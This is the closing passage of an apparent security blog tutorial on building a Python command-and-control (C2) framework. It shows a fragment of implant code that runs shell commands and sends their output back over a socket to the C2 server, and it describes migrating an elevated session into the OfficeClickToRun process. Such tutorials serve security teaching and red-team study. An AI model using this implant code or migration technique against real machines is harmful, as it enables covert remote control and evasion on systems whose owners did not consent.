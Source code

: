 ```python
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE)
                client.send(b"returned output: \n"+proc.stdout.read()+proc.stderr.read())
                #client.send(b"[+] Sleeping for 7 seconds and wrapping things up!  You should be migrated into another process now!\n")
                time.sleep(7)
            except:
                print("some error occurred...")
```

Okay, I think that should do it!  Let's go ahead and navigate into an elevated session in our Zombie list and then check out our commands.  We're going to want to use the `migrate` command:

![image](https://github.com/user-attachments/assets/20ef95ee-f746-4603-b6c7-33eecf06afcc)

I'm going to go with the process ID for the `OfficeClickToRun` process:

![image](https://github.com/user-attachments/assets/03776271-9d98-4786-8b75-35592bf86cb1)

Let 'er rip!!!!

![image](https://github.com/user-attachments/assets/e9afb48e-7e7e-4330-8f53-5e763daf1b18)

There it is 😄

![image](https://github.com/user-attachments/assets/235544c4-19ff-4f0d-ad78-04af18212dcf)

![image](https://github.com/user-attachments/assets/d6ab9822-695c-4958-8034-6c1434c99120)

I think this may be the most fun I've had writing a post in quite some time!  It's been a bit as I've been working on some other projects the last couple of weeks, but I knew it was high time to do another post for our C2 series!  I hope you've enjoyed this series as much as I have, and as always, the source code can be found in this folder: 

**2024-12-20-Create your own C2 using Python - Part 3**

**Located here**: [C2 Part 3 - Files](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2024-12-20-Create%20your%20own%20C2%20using%20Python%20-%20Part%203)

If you truly enjoy this content, please spread the word and let others know about this blog.  I love teaching about the many exciting facets of infosec and I try to keep my posts simple and easy to follow.  Later everyone!

